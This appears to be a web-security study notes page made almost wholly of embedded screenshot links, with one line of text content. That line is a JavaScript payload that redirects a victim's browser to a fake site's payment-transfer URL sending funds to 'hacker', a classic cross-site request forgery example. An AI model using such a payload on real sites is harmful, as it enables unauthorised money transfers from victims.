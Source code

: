 ![[Pasted image 20250129185405.png]]
![[Pasted image 20250129185441.png]]
![[Pasted image 20250129185515.png]]
![[Pasted image 20250129185800.png]]
![[Pasted image 20250129185900.png]]
![[Pasted image 20250129190024.png]]
![[Pasted image 20250129194815.png]]
![[Pasted image 20250129194831.png]]
![[Pasted image 20250129200901.png]]
![[Pasted image 20250129200935.png]]


![[Pasted image 20250129201421.png]]
![[Pasted image 20250129202056.png]]


![[Pasted image 20250129202326.png]]
![[Pasted image 20250129205408.png]]
![[Pasted image 20250130214344.png]]
![[Pasted image 20250130221508.png]]
![[Pasted image 20250130223433.png]]

![[Pasted image 20250202194200.png]]
![[Pasted image 20250202194309.png]]



![[Pasted image 20250202205408.png]]
![[Pasted image 20250202205615.png]]
![[Pasted image 20250202205639.png]]
![[Pasted image 20250202212113.png]]
![[Pasted image 20250202212140.png]]
![[Pasted image 20250202212824.png]]
![[Pasted image 20250202212958.png]]
![[Pasted image 20250202221133.png]]
![[Pasted image 20250202221230.png]]![[Pasted image 20250202221343.png]]
![[Pasted image 20250202221453.png]]

![[Pasted image 20250202221655.png]]
<script> document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; </script>

![[Pasted image 20250203212847.png]]


![[Pasted image 20250203221835.png]]
![[Pasted image 20250203222331.png]]

![[Pasted image 20250204200736.png]]![[Pasted image 20250204200758.png]]
![[Pasted image 20250204205203.png]]
![[Pasted image 20250204205216.png]]


![[Pasted image 20250204212039.png]]
![[Pasted image 20250204212249.png]]![[Pasted image 20250204221946.png]]
![[Pasted image 20250204221959.png]]
